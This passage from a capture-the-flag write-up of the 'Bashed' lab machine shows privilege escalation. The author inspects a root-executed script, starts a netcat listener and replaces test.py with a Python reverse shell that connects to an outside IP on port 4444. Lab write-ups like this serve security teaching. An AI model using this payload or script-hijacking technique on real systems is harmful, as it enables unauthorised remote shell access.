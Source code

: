 <br />
As the scriptmanager, ls said scripts folder.

{% raw %}
```sh
www-data@bashed:/dev/shm$ sudo -i -u scriptmanager ls -la /scripts
sudo -i -u scriptmanager ls -la /scripts
total 16
drwxrwxr--  2 scriptmanager scriptmanager 4096 Jun  2  2022 .
drwxr-xr-x 23 root          root          4096 Jun  2  2022 ..
-rw-r--r--  1 scriptmanager scriptmanager   58 Dec  4  2017 test.py
-rw-r--r--  1 root          root            12 Jan 28 06:16 test.txt
```
{% endraw %}

<br />
Check the contents of the test.py file.

{% raw %}
```sh
sudo -i -u scriptmanager cat /scripts/test.py
f = open("test.txt", "w")
f.write("testing 123!")
f.close
```
{% endraw %}

<br />
Start a second netcat listener.

{% raw %}
```sh
┌──(kali㉿kali)-[~/Documents/htb/bashed]
└─$ nc -nlvp 4444                             
listening on [any] 4444 ...
```
{% endraw %}

<br />
Create a new test.py file to create a reverse shell.

{% raw %}
```python
import socket
import subprocess
import os
import pty

s=socket.socket(socket.AF_INET,socket.SOCK_STREAM)
s.connect(("10.10.16.12",4444))
os.dup2(s.fileno(),0)
os.dup2(s.fileno(),1)
os.dup2(s.fileno(),2)
pty.spawn("sh")
```
{% endraw %}
